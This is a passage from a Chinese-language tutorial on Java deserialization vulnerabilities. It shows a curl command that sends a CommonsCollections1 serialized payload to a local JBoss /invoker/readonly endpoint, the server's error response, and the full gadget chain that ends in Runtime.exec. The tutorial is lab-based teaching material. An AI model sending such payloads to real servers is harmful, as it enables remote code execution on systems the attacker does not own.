 现在，向一个存在反序列化漏洞且 JDK 版本小于 8u71 的 Jboss 环境发送如上生成的恶意序列化数据，效果符合预期，如下图，成功弹出计算器。

```shell
curl -H "Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue" --data-binary "@cc1.ser" <http://localhost:8080/invoker/readonly>
<html><head><title>JBoss Web/3.0.0-CR2 - Error report</title><style><!--H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} H2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} H3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} B {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} P {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;}A {color : black;}A.name {color : black;}HR {color : #525D76;}--></style> </head><body><h1>HTTP Status 500 - </h1><HR size="1" noshade="noshade"><p><b>type</b> Exception report</p><p><b>message</b> <u></u></p><p><b>description</b> <u>The server encountered an internal error () that prevented it from fulfilling this request.</u></p><p><b>exception</b> <pre>java.lang.ClassCastException: sun.reflect.annotation.AnnotationInvocationHandler cannot be cast to org.jboss.invocation.MarshalledInvocation
        org.jboss.invocation.http.servlet.ReadOnlyAccessFilter.doFilter(ReadOnlyAccessFilter.java:106)
</pre></p><p><b>note</b> <u>The full stack trace of the root cause is available in the JBoss Web/3.0.0-CR2 logs.</u></p><HR size="1" noshade="noshade"><h3>JBoss Web/3.0.0-CR2</h3></body></html>
```

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/922b91e1-6476-45c7-8cfb-cf08f4d0beb5/11.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=88b17c6758aa506e81b24e2d8b1e672a86b5b6982204dfcce85dbca5226c246c&X-Amz-SignedHeaders=host&x-id=GetObject)

完整 Gadget 调用链如下。

```text
AnnotationInvocationHandler.readObject()
   Map(Proxy).entrySet()
        AnnotationInvocationHandler.invoke()
            TransformedMap.setValue()
                ChainedTransformer.transform()
                    ConstantTransformer.transform()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Class.getMethod()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Runtime.getRuntime()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Runtime.exec()
```

## 参考

- [https://0xf4n9x.github.io/java-deserialization-vulnerability-principle](https://0xf4n9x.github.io/java-deserialization-vulnerability-principle)
- [https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478](https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478)
- [https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/)
- [https://www.javasec.org/javase/JavaDeserialization/Collections.html](https://www.javasec.org/javase/JavaDeserialization/Collections.html)
